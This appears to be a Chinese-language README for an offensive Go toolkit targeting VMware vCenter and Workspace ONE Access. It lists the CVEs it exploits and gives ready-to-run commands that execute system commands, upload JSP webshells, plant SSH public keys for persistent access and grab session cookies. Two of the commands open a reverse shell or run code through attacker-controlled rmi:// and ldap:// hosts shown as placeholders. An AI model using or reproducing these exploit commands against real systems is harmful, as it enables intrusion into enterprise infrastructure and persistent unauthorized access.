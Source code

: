```http
一款针对Vcenter的综合利用工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22005、One Access的CVE-2022-22954、CVE-2022-22972/31656以及log4j，提供一键上传webshell，命令执行或者上传公钥使用SSH免密连接

go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t exec -r ldap://xx.xx.xx.xx:1389 -c whoami //也可以不指定ldap服务
./main.exe -u https://xx.xx.com -m 22954 whoami
./main.exe -u https://xx.xx.com -m 22972 //get cookie
./main.exe -u https://xx.xx.com -m 31656 //If CVE-2022-22972不能用就换CVE-2022-31656
```

```http
Vcenter综合渗透利用工具包 | Vcenter Comprehensive Penetration and Exploitation Toolkit包含

信息收集模块
CVE-2021-21972模块
CVE-2021-21985模块
CVE-2021-22005模块
CVE-2022-22954模块
CVE-2022-22972模块
后渗透利用模块
渗透测试记事本(打vcenter的时候常用的命令、常看的文章)
```

​![image](assets/image-20240627094033-t8q9zy8.png)​
